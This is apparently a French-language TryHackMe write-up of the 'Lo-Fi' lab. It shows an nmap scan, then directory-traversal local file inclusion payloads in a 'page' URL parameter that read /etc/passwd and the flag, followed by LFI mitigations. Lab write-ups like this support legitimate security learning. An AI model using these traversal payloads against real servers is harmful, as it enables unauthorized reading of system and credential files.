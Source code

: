 # TryHackMe - Lo-Fi Write-Up (FR)  

## 🛠 Informations

- **Nom de la machine** : Lo-Fi
- **Plateforme** : TryHackMe
- **Difficulté** : Facile
- **Type** : Web Exploitation - LFI (Local File Inclusion)

---

## 🏁 Objectifs

L'objectif de cette machine est d'exploiter une vulnérabilité **LFI (Local File Inclusion)** pour récupérer des fichiers sensibles sur le serveur et capturer le flag.

---

## 🔍 1. Scan et Reconnaissance

On commence par un scan des ports pour voir quels services sont accessibles.

### **Scan Nmap**

```bash
nmap -sC -sV -T4 -p- <IP_de_la_machine>
```

🔎 **Résultat :** Le site web est accessible via HTTP sur le port **80**.

---

## 🌐 2. Analyse du site web

Nous visitons la page principale et analysons l'URL. Nous remarquons que chaque page utilise un paramètre `page`, par exemple :

```
http://lo-fi.thm/?page=relax.php
```

Cela suggère que le site **inclut dynamiquement des fichiers PHP**.

---

## 💥 3. Exploitation - Local File Inclusion (LFI)

Nous testons si la LFI est possible en tentant d'inclure le fichier `/etc/passwd`.

### **Test LFI**

Nous modifions l'URL comme suit :

```
http://lo-fi.thm/?page=../../../../etc/passwd
```

🔎 **Résultat :** Le fichier `/etc/passwd` est affiché, confirmant la vulnérabilité !

Extrait du fichier :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
...
```

---

## 🏆 4. Récupération du Flag

Maintenant que nous avons confirmé la LFI, nous recherchons directement le fichier `flag.txt` :

```
http://lo-fi.thm/?page=../../../../flag.txt
```

🎉 **Flag récupéré avec succès !**

---

## 🔐 5. Protection contre la LFI

Pour éviter ce type de vulnérabilité, voici quelques bonnes pratiques :

- **Utiliser des chemins absolus** et éviter d'inclure des fichiers basés sur l'entrée utilisateur.
- **Restreindre l'accès aux fichiers sensibles** (ex: via des permissions ou un `.htaccess`).
- **Filtrer les entrées** pour empêcher les séquences `../` qui permettent de remonter dans les dossiers.
- **Désactiver `allow_url_include` et `allow_url_fopen`** dans `php.ini`.

---

## 🎯 Conclusion

La machine "Lo-Fi" illustre bien la dangerosité des failles LFI et leur exploitation. En environnement réel, cette vulnérabilité peut mener à l'exposition de données critiques et même à une exécution de code si combinée à d'autres techniques comme le **Log Poisoning**.

---

✅ **TryHackMe - Lo-Fi complété avec succès !** 🚀

